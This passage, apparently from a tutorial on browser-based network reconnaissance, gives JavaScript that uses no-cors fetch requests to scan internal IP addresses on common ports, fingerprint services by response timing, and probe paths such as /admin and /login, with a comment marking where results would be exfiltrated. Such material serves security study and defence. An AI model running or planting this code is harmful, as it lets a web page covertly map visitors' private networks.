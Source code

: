 ## Advanced Techniques

### Port Scanning

The same technique can scan different ports:

```javascript
function scanPort(ip, port) {
  return fetch("http://" + ip + ":" + port, {
    mode: "no-cors",
  })
    .then(() => ({ ip, port, open: true }))
    .catch(() => ({ ip, port, open: false }));
}

// Scan common ports
var ports = [80, 443, 8080, 8443, 3000, 5000, 8000];
var promises = [];

ipsToScan.forEach((ip) => {
  ports.forEach((port) => {
    promises.push(scanPort(ip, port));
  });
});

Promise.all(promises).then((results) => {
  var openPorts = results.filter((r) => r.open);
  // Exfiltrate openPorts
});
```

### Service Fingerprinting

Some services can be fingerprinted by timing:

```javascript
function fingerprintService(ip) {
  var start = Date.now();
  return fetch("http://" + ip, { mode: "no-cors" }).then(() => {
    var duration = Date.now() - start;
    return { ip, responseTime: duration };
  });
}
```

Different services have different response times, which can help identify them.

### Timing-Based Detection

Even without reading the response, timing can reveal information:

```javascript
function detectService(ip) {
  var timings = [];

  // Try multiple requests
  return Promise.all([
    timeRequest(ip + "/"),
    timeRequest(ip + "/admin"),
    timeRequest(ip + "/api"),
    timeRequest(ip + "/login"),
  ]).then((results) => {
    // Analyze timing patterns to guess service type
    return guessService(results);
  });
}
```
